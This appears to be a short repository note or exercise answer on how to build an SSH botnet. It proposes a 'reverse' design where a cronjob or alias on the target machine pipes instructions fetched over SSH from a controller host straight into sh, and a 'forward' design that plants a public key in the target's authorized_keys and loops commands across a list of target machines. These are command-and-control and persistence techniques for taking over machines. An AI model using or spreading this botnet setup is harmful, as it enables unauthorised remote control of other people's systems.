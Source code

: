 # Botnets
- How would you build ssh botnet?


## Initial thoughts:
- SSH could be used in reverse and forward direction. Reverse could make sense depending on firewall and would need special hardening to prevent hack backs.
- What is the intension of the ssh net? To execute commands, to obfuscate traffic?


## Reverse: 

### Prerequisits: 
- Limit to rbash shell and no access to any other command than "cat instruction.sh" via alias.
- Place/generate private rsa key on target machine if no key exist in the profile.

Cronjob or alias with he following bash script:
```bash
ssh -i id_rsa user@hostname "cat instructions.sh" | sh
```

### Forward:
Add public ssh key to target machine ~/.ssh/authorized_keys.

Easy solution -  Public Key based szenario:
```bash
while read p; do
  ssh -i id_rsa $p "command"
done <target_machines.txt
```

This solution in python can be found in the "solution.py" file.

Install requirements:
```bash
python3 -m pip install -r requirements.txt
```